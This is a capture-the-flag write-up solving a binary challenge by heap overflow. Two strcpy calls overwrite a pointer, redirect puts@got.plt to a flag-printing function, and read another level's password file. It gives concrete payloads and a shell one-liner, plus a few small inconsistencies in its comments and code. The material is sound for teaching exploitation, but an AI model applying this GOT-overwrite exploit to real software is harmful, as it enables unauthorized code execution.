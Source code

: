 # Level 7

## Initial Context

- One file: `level7`

## Solving the Challenge

The executable expects two arguments.

If run using `ltrace`, we can see that there is 4 constant allocations, followed by 2 `strcpy` and a read of the flag file.

```bash
$ ltrace ./level7 a b
...
malloc(8)                               = 0x0804a008
malloc(8)                               = 0x0804a018
malloc(8)                               = 0x0804a028
malloc(8)                               = 0x0804a038
strcpy(0x0804a018, "a")                 = 0x0804a018
strcpy(0x0804a038, "b")                 = 0x0804a038
fopen("/home/user/level8/.pass", "r")
fgets(...)
puts("~~")
...
```

The program is copying `argv[1]` to the second allocated memory and `argv[2]` to the forth allocated memory.

Since the pointers are really close we can do a buffer overflow.

There is also a function `m` where the flag is printed from.
We need to redirect the `puts` call to `m`.

Since `puts` its not a direct call, but instead use the PLT, we have to overwrite the GOT.

The second and third allocation are only `16 bytes` afar.

Here is the first payload to overwrite the forth address to `puts@got.plt`:

```python
print "A" * (16 + 4) + "\x28\x99\x04\x08"'
# padding of 16
"A" * 16

# padding of 8 to skip the "2" (or `second[0]`)
+ "A" * 4

# puts@got.plt's address in LE
+ "\x28\x99\x04\x08"
```

And here is the second payload to set the "new value" for `puts@got.plt`:

```python
# m's address in LE
+ "\xf4\x84\x04\x08"
```

The program will print the flag for us, so no need to save the payload into a file, we can send it directly to the vulnerable program:

```bash
$ ./level7 $(python -c 'print "A" * (16 + 4) + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
<flag>
```
